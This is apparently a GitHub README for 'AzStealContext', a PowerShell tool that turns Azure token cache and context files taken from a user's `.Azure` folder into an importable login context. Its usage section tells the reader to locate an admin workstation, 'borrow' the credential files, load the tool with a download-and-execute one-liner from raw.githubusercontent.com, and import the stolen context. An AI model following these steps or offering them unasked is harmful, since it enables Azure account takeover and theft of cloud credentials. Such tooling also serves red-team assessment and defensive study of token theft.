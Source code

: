 # AzStealContext

A PowerShell function that automates the process of stealing the Azure context of a users .Azure folder. 

When a user authenticates using the Az PowerShell module a `.Azure` folder is created in the users home folder. This folder contains multipele files including the `AzureRmContext.json` and `TokenCache.dat` files. These files contain all the information a attacker needs to create a 'context file' which is equavulant of the output of the [`Save-AzContext`](https://docs.microsoft.com/en-us/powershell/module/az.accounts/save-azcontext?view=azps-4.6.1) command. This PowerShell function automates the process a attacker would need to take to create a 'context' file.

The AzureRmContext file can have multiple 'contexts'. This happens if the `Connect-AzAccount` is run multiple times by the same user with different credentials. This function will verify if there are multiple contexts and if so, will ask you which one to use as the default context. 


## Usage
1. Find a Admin workstation / Userprofile that has the `.Azure` folder.
2. 'Borrow' the `TokenCache.dat` and `AzureRmContext.json` files.
3. Load this function. `iex((iwr https://raw.githubusercontent.com/justin-p/AzStealContext/master/Invoke-AzStealContext.ps1).content)`
4. Run the function
   - To prepair a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files'`
   - To prepair and Import a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext`
   - Overwrite a existing OutFile: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext -Force`
   - To change the default OutFile `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -OutFile 'CustomFilename.json'`
   
# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)
